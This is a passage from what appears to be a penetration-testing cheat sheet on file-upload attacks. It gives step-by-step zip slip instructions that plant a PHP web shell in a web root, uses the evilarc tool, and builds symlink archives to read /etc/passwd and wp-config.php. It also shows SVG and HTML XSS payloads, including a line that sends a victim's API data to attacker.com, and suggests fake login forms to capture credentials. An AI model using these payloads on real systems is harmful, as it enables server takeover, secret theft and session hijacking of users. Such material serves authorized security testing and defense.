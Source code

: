   - **ZIP-based attacks**
    1. **Zip slip exploitation**:
       - Step 1: Create a zip file with files containing path traversal:
       ```bash
       echo '<?php system($_GET["cmd"]); ?>' > payload.php
       zip --symlinks malicious.zip ../../../../var/www/html/payload.php
       ```
       - Step 2: Upload the zip file to an application that extracts uploads
       - Step 3: If the application extracts without path validation, files will be placed outside the upload directory
       - Step 4: Locate and access the extracted files in the traversed location
       - Step 5: Verify code execution
       - Example: Create a zip with payload target: `../../../../../../var/www/html/shell.php`

    2. **Using evilarc tool**:
       - Step 1: Install evilarc tool: `git clone https://github.com/ptoomey3/evilarc.git`
       - Step 2: Create payload: `echo '<?php system($_GET["cmd"]); ?>' > shell.php`
       - Step 3: Generate malicious zip: `python evilarc.py -o unix -d 5 -p /var/www/html/ shell.php`
       - Step 4: Upload the generated zip file
       - Step 5: Test for successful traversal and file extraction
       - Example: Use evilarc to target `/var/www/html/` with 5 levels of traversal

    3. **Zip file with symlinks**:
       - Step 1: Create a symlink to a sensitive file:
       ```bash
       ln -s /etc/passwd link_to_passwd
       zip --symlinks malicious.zip link_to_passwd
       ```
       - Step 2: Upload the zip file to an application that extracts uploads
       - Step 3: If the application preserves symlinks during extraction, they will point to the target files
       - Step 4: Access the extracted symlink to read/modify the target file
       - Step 5: Use this technique to access sensitive configuration files
       - Example: Create symlinks to access `/etc/passwd`, `wp-config.php`, or application secrets

  - **Exploiting file upload for XSS**
    1. **SVG-based XSS**:
       - Step 1: Create an SVG file with embedded JavaScript:
       ```xml
       <svg xmlns="http://www.w3.org/2000/svg" onload="alert(document.domain)">
         <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
       </svg>
       ```
       - Step 2: Upload the SVG file through the application
       - Step 3: If the SVG is displayed directly to users, the JavaScript will execute
       - Step 4: Extend the payload for more sophisticated attacks
       - Step 5: Try to steal cookies or session information
       - Example: Create SVG with `fetch('/api/user',{credentials:'include'}).then(r=>r.json()).then(r=>fetch('https://attacker.com/'+btoa(JSON.stringify(r))))`

    2. **HTML file upload for XSS**:
       - Step 1: Create an HTML file with JavaScript:
       ```html
       <html>
         <body>
           <script>alert(document.domain)</script>
         </body>
       </html>
       ```
       - Step 2: Upload the HTML file if allowed
       - Step 3: Access the file directly to verify XSS
       - Step 4: Enhance payload for session stealing or other attacks
       - Step 5: Target other users who might view the upload
       - Example: Create a fake login form in HTML to capture credentials
